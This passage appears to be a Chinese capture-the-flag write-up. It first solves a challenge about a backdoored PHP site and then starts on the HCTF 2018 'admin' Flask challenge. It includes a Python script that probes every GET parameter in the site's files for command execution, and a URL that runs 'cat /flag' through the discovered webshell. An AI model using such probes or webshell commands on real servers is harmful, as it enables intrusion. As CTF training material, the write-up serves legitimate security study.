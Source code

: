 下载源码，3002个文件，看不懂

站被日了，文件里必有马

本地跑，找到一个能用的然后cat flag

```python
import os
import requests

path = "/var/www/html/src/"
url = "http://127.0.0.1/src/"
files = os.listdir(path)

def search_get(f):
    gets = []
    with open(path+f, 'r') as f:
        for line in f.readlines():
            if "$_GET['" in line:
                start = line.find("$_GET['") + len("$_GET['")
                end = line.find("'", start)
                gets.append('?'+line[start:end]+'=')
    return gets

for i in range(0,len(files)):
    filename = 'xk0SzyKwfzw.php'
    #filename = files[i]
    gets = search_get(filename)
    for get in gets:
        fuck = url+filename+get+'echo wdnmd'
        r = requests.get(fuck)
        if 'wdnmd' in r.content:
            print(fuck)

```



```
http://ab3232d1-e24e-495a-a1fb-81b3632d4638.node3.buuoj.cn/xk0SzyKwfzw.php?Efa5BVG=cat%20/flag
```



## [HCTF 2018]admin

注册、登陆、改密码

改密码查看源码发现源码白给

```
https://github.com/woadsl1234/hctf_flask/
```

```python
@app.route('/register', methods = ['GET', 'POST'])
def register():

    if current_user.is_authenticated:
        return redirect(url_for('index'))

    form = RegisterForm()
    if request.method == 'POST':
        name = strlower(form.username.data)
        if session.get('image').lower() != form.verify_code.data.lower():
            flash('Wrong verify code.')
            return render_template('register.html', title = 'register', form=form)
        if User.query.filter_by(username = name).first():
            flash('The username has been registered')
            return redirect(url_for('register'))
```